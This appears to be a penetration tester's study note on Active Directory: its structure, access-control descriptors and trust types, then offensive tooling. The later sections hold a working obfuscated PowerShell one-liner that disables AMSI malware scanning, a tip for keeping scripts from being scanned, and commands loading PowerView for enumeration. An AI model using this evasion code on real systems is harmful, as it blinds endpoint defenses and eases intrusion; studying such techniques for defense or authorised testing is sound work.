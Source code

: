# Active Directory

### Elements

* Schema: definition of an object and its properties
* Global catalog (DC): provides information about all objects in the directory
* Replication Service: synchronizes information about objects between all Domain Controllers
* Forest: a security boundary that includes several domains
* Domain: identified as a SID, contains several Organization Units
* Organization Unit (OU):

### Access control

Performed through a combination of token containing identity and privileges of user and security descriptors of the targeted object which include:

* SID: security identity of the owner of object
* DACL: discretionary ACL - access permissions of the client on the object
* SASL: system ACL - logging and audit policies by user
* ACE: access control entity - the single access rule that composes the list of rules used by DACL and SACL to manage accesses

### Trust

Link between two domains that allows objects to share information. Can occur between father/child or horizontally across the forest boundary.&#x20;

* One Way trust: users in the trusted domain can access resources on the trusting domain but the reverse is not true
* Bi-directional trust: users in mutually trusting forests can share and access to both domains
* External: bi-directional and non transitive trust between domains on different forests
* Default:  two-way transitive trust between father-child elements
* Forest: trust established between root elements of forest. Can be one or two ways, transitive or non transitive
* Shortcut: can be one or two way, used to ease communications within large structures

Bidirectional Default trusts can always be enumerated



### AMSI Bypass

Obfuscated strings to disable AMSI PowerShell protection

```
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

```

### Including External Scripts

By storing PS1 scripts under C:\AD\Tools they will not be scanned&#x20;

#### PowerView

```
. .\PowerView.ps1
```

#### LDAP Module

```
Import-Module .\Microsoft\ActiveDirectory.Management.dll
Import-Module .\ActiveDirectory\ActiveDirectory.psdl
```

